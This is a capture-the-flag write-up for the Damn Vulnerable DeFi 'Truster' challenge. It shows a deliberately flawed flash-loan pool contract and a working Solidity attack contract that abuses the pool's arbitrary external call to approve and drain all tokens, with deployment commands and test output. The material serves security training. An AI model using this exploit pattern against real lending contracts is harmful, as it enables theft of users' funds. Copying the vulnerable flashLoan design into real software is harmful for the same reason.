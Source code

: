 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/3.png">

# Target Contract Review

Given contract.

**TrusterLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

`TrusterLenderPool` is a contract that **allows users to borrow tokens from the pool and execute arbitrary code in a flash loan**.

The constructor function takes an instance of the `DamnValuableToken` contract and assigns it to the token variable.

`flashLoan()` : It allows a borrower to borrow a specified amount of tokens from the pool and execute a target function with provided data. The borrower must provide the amount to borrow, their address, the target contract address, and the data to be executed.

Inside the function, the current balance of the token contract is stored in the `balanceBefore` variable. Then, the specified amount of tokens is transferred from the pool to the borrower's address using the transfer function of the token contract. After that, the target function specified by the borrower is executed using the `functionCall()` function.







Challenge's message:

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

# Subverting

The `flashLoan()` function allows one to take a flash loan and then ensures that the loan has been paid back. This function execute `target.functionCall(data)` command which gives us ability of calling a low-level function. In other words, we can call ERC20 standart token's functions. Like `approve()`...

In this case, we can call `approve()` function to approve all balance. After then, we clearly call flashLoan function to transfer all token from the pool contract with passing first paramater as 0. Here is our attack contract looks like:


```solidity
pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackTruster {

    TrusterLenderPool pool;
    constructor(address payable _pool){
        pool = TrusterLenderPool(_pool);
    }

    function attack(IERC20 token)external{
        uint balance = token.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);
        pool.flashLoan(0, msg.sender, address(token), data);
        token.transferFrom(address(pool), msg.sender, balance);
    }
}
```

Basically, it gets the address of the `TrusterLenderPool` contract in the constructor. Later, it gets the pool contract's balance. Next, it encodes the data variable with the abi signature parameter as the approve function and its parameters we will have sent when the functionCall() is executed.

In the final step, first we call the flashLoan function to execute data. Lastly, we transfer all tokens to our balance. Here is attacker commands:

```js
const AttackFactory = await ethers.getContractFactory('AttackTruster', deployer);
attack = await AttackFactory.deploy(pool.address);
await attack.connect(player).attack(token.address);
```

Solve the challenge.

```powershell
  [Challenge] Truster
    ✔ Execution (73ms)


  1 passing (2s)

Done in 2.75s.
```

**_by wasny0ps_**
